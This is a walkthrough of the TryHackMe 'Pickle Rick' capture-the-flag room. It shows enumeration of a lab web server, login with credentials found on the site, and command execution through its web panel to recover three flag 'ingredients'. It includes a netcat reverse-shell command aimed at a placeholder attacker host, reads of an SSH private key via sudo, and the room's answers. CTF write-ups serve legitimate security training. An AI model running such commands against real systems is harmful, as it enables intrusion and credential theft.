 # Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

Upon reading the source code in `http://10.10.253.172/`, I found the username `R1ckRul3s` within the comments.

...

```bash
gobuster dir -u ... -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...
/assets
/robots.txt
/.htaccess
/.htpasswd
...
```

...

From `/robots.txt`:

`Wubbalubbadubdub`

...

```bash
$ ffuf -u http://<target>/FUZZ.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
/login.php
/portal.php
...
```

...

```bash
$ ffuf -h -u http://<target>/FUZZ -w .../Apache_common.txt
/login.php
/portal.php
... 
```

I visited the path `/login.php` , and was presented with a login page. I utilized the information we have gathered earlier to discover the username and password combination of `R1ckRul3s` and `Wubbalubbadubdub` respectively.

**Enumerating the webpage**

&#x20;`/portal.php`:

The following comment was found in the source code:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This is a string that has been base64-encoded multiple times. The plaintext value turns out to be `rabbit hole` . Well, is this a clue, or perhaps a directory path value, name of a file, or simply something just to throw us off?

The main interface presented an input form that accepts commands for a Linux environment. This form will be used to enumerate the Linux system and find the ingredients.

### First ingredient

```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair
```

### Second ingredient

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disable
1 jerry tear
```

### Third ingredient

I was having difficulty finding the third ingredient from the file system, as most of my attempts at enumerating the directories returned an empty response. Thus, I decided to further enumerate the webpage.

Upon visiting `/denied.php` ,

We are presented with a message: "Only the REAL rick can view this page." This made me wonder, by _REAL rick_, does this mean we have to somehow access this page via the root account?

**SQL Injection attempt**

I attempted a SQL injection attack on the login form, in hopes of potentially discovering the name and password combination of the root, or higher privilege account.

```sql
...
```

The database used in the system seems to either not use an SQL-based database, or is simply not vulnerable to a SQL injection attack.

I decided to focus my efforts on the shell environment presented in the interface. To provide myself with a more stable shell experience, I tried to establish a remote shell environment through a few methods: reverse shell and SSH connection.

**Attempts to initiate a reverse shell**

```bash
$ perl ...
$ ... # bash
$ ... # python
$ nc <attacker> [port] -e /bin/sh # netcat
```

\
**Attempt to add a new SSH authorized key**&#x20;

```bash
$ ...
```

**Attempts at abusing my `sudo` privileges to view system logs, SSH configurations, etc.**

```bash
$ sudo -l

Matching Defaults entries for www-data on ip-10-10-49-150:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-49-150:
    (ALL) NOPASSWD: ALL
    
$ sudo less /var/log/syslog
...

$ ls -la /etc/ssh
...

$ sudo less /etc/ssh/ssh_host_rsa_key
...

```

**Finding the last and final ingredient**

```bash
$ sudo ls -la /root
...
3rd.txt
...

$ sudo less /root/3rd.txt
fleeb juice
```
